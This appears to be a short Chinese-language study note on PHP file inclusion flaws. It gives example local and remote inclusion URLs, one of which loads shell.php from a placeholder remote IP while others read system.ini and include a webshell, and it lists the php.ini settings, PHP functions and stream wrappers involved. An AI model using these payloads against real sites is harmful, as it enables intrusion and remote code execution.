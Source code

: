 # 

# 文件包含漏洞

## 本地文件包含

```
http://localhost/fileinc/include.php?file=webshell.php
```

```
http://localhost/fileinc/include.php?file=C:\Windows\system.ini
```

​	

## 远程文件包含

```
http://localhost/fileinc/include.php?file=http://远程IP/shell.php
```

php.ini前提配置:

- `allow_url_fopen = on` //默认打开 
- `sllow_url_include=on` //这个是比较危险的选项，默认关闭

​	

## 相关函数

- [include()](https://www.php.net/manual/zh/function.
  include.php)
- [include_once()](https://www.php.net/manual/zh/function.
  include-once.php)
- [require()](https://www.php.net/manual/zh/function.
  require.php)
- [require_once()](https://www.php.net/manual/zh/function.
  require-once.php)
- [fopen()](https://www.php.net/manual/zh/function.
  fopen.php)
- [readfile()](https://www.php.net/manual/zh/function.
  readfile.php)
- [highlight_file()](https://www.php.net/manual/zh/function.
  highlight-file.php)
- [show_source()](https://www.php.net/manual/zh/function.
  show-source.php)
- [file_get_contents()](https://www.php.net/manual/zh/function.
  file-get-contents.php)
- [file()](https://www.php.net/manual/zh/function.
  file.php)

​	

## 伪协议

- `file://`——访问本地文件系统

- `http://`——访问 HTTP(s) 网址

- `ftp://`——访问 FTP(s) URLs

- `php://`——访问各个输入/输出流(I/O streams)

- `zlib://`——压缩流

- `data://`——数据(RFC 2379)

- `glob://`——查找匹配的文件路径模式

- `phar://`——PHP 归档

- `ssh2://`——Secure Shell 2

- `rar://`——RAR

- `og://`——音频流

- `expect://`——处理交互式的流

  

